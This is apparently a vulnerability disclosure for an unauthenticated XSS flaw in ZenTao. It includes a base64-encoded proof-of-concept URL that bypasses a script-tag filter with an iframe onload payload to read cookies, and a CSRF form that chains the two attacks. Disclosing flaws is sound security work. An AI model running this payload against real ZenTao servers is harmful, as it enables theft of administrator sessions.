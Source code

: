 # Cross-site Scripting Attack (XSS) in all versions of ZenTao


Impact: ZenTao project management software is an open source project management software. The latest version (Enterprise Edition<=5.0.rc1, Professional Edition<=10.0.rc1, Open Source Edition<=15.0) has cross-site scripting attacks. Users do not need to log in, they can construct a poc and get the administrator cookie.
Condition: /config/my.php set $config->requestType ='GET' 

## 1.poc

poc:
```
/index.php?m=user&f=login&t=json&referer=L2luZGV4LnBocD9tPXVzZXImZj0xJnQ9anNvbiZyZWZlcmVyPTxpZnJhbWUgb25sb2FkPSdhbGVydChkb2N1bWVudC5jb29raWUpJz4=
```

![img](1.png)
The filter ```<script>``` is used here, and it can be bypassed by using ```<iframe onload='alert(document.cookie)'>```

## 2.危害
Can be combined with csrf to construct an attack chain.
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://ip:8002/index.php">
      <input type="hidden" name="m" value="user" />
      <input type="hidden" name="f" value="login" />
      <input type="hidden" name="t" value="json" />
      <input type="hidden" name="referer" value="L2luZGV4LnBocD9tPXVzZXImZj0xJnQ9anNvbiZyZWZlcmVyPTxpZnJhbWUgb25sb2FkPSdhbGVydChkb2N1bWVudC5jb29raWUpJz4&#61;" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
![img](2.png)

Trigger an attack by clicking or other means.
![img](3.png)
